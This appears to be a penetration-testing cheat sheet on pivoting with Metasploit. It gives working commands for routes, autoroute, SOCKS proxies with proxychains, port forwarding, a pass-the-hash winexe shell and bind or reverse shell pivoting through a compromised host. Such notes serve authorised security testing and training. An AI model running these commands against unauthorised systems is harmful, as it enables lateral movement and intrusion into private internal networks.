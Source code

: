 # ⭕ Metasploit Pivoting

### <mark style="color:orange;">MANUAL ROUTE</mark>

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

### <mark style="color:orange;">AUTO ROUTE</mark>

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
run autoroute -p >>> list active routing tables
run autoroute -s 10.1.1.0 -n 255.255.255.0 >>> netmask is optional
run autoroute -d -s 10.10.10.1  >>> delete autoroute on ip
run autoroute -s 10.10.10.1/24 >>> can use CIDR
```

### <mark style="color:orange;">PROXY</mark>

add a proxy to proxychains.conf and use it inside and outside of metasploit

```
use auxiliary/server/socks4a
use auxiliary/server/socks5
use auxiliary/server/socks_unc
set srvport 8080 → set proxy local port
```

add 127.0.0.1 8080 to proxychains and make sure there are no other proxies in the config file:

```
socks4  127.0.0.1  8080
```

now run commands with proxychains prefix

```
proxychains nmap -Pn -sT -sV -p- [target]
proxychains pth-winexe -U windows10/user123//10.0.1.5 cmd.exe
```

### <mark style="color:orange;">PORT FORWARD</mark>

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

### <mark style="color:orange;">PIVOTING BIND SHELL</mark>

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
ALLWAYS USE A BIND SHELL WHILE PIVOTING
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

### <mark style="color:orange;">PIVOTING REVERSE SHELL</mark>

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)
